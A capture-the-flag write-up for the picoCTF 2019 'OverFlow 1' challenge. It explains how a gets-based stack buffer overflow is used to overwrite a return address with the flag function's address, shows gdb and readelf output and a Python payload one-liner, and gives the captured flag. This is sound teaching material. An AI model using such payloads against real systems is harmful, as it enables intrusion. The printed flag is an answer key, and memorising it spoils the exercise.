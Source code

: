 # OverFlow 1
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server. [Source](vuln.c).

## Hint
Take control that return address
Make sure your address is in Little Endian.

## Solution
Like last time, we have to overflow the return address. However, we have to write a specific value into it. If we open up the program with gdb (the GNU project debugger), we can see the assembly layout and certain addresses in the program:
```bash
turtlesubmarine69@pico-2019-shell1:/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780$ gdb vuln
(some messages while opening up)
(gdb) disas main
Dump of assembler code for function main:
```
```asm
   0x0804869e <+0>:     lea    0x4(%esp),%ecx
   0x080486a2 <+4>:     and    $0xfffffff0,%esp
   0x080486a5 <+7>:     pushl  -0x4(%ecx)
   .
   .
   .
   0x080486fd <+95>:    add    $0x10,%esp
   0x08048700 <+98>:    call   0x804865f <vuln>
   0x08048705 <+103>:   mov    $0x0,%eax
```
We see that the vuln function is called. The `call` command pushes, or "saves", the address of the next instruction (0x08048705) onto the stack, and it will jump to `vuln`'s address (0x804865f). A `ret` function in vuln will pop from this saved address from the stack later and jump to it, thus continuing the function. We want to overwrite this return address. Now when we disassemble `vuln`:
```bash
(gdb) disas vuln
Dump of assembler code for function vuln:
```
```asm
   0x0804865f <+0>:     push   %ebp
   0x08048660 <+1>:     mov    %esp,%ebp
   0x08048662 <+3>:     push   %ebx
   .
   .
   .
   0x08048677 <+24>:    push   %eax
   0x08048678 <+25>:    call   0x8048430 <gets@plt>
   0x0804867d <+30>:    add    $0x10,%esp
```
This program calls `gets` (last time it called `strcpy`). `gets` reads from stdin, and like `strcpy`, it doesn't check the size of the input, but it terminates when a newline character is reached(\x0a, the same as pressing "Enter" on a keyboard). We can input 64 bytes of a's (the size of the buffer) and see how close we are to the return address by analysing the stack with gdb:
```
(after inputting the a's)
(gdb) x/50x $esp
0xffb2ef20:     0xffb2ef30      0xf7f38000      0xffb2ef68      0x0804866b
0xffb2ef30:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef40:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef50:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef60:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef70:     0x08048800      0x0804a000      0xffb2ef98      0x08048705
.
.
.
```
There it is, the saved address 0x08048705 at 0xffb2ef7c. This means we need to overwrite 12 more bytes, and then add the return address in little endian, where we can use python's struct module to convert hexadecimal values into bytes, and overwrite it with the address of the flag function, which will read out the flag to us. We can find the `flag`'s address with `readelf` and `grep` the results:
```bash
turtlesubmarine69@pico-2019-shell1:/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780$ readelf -s vuln | grep "flag"
    74: 080485e6   121 FUNC    GLOBAL DEFAULT   14 flag
```
Our payload looks like this:
```python -c "import struct; print 'a'*(64+12) + struct.pack('I', 0x080485e6)" | ./vuln```

## Details
Completed: *During competition*  
Done by: Cyril  
Flag: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5c0178710}`

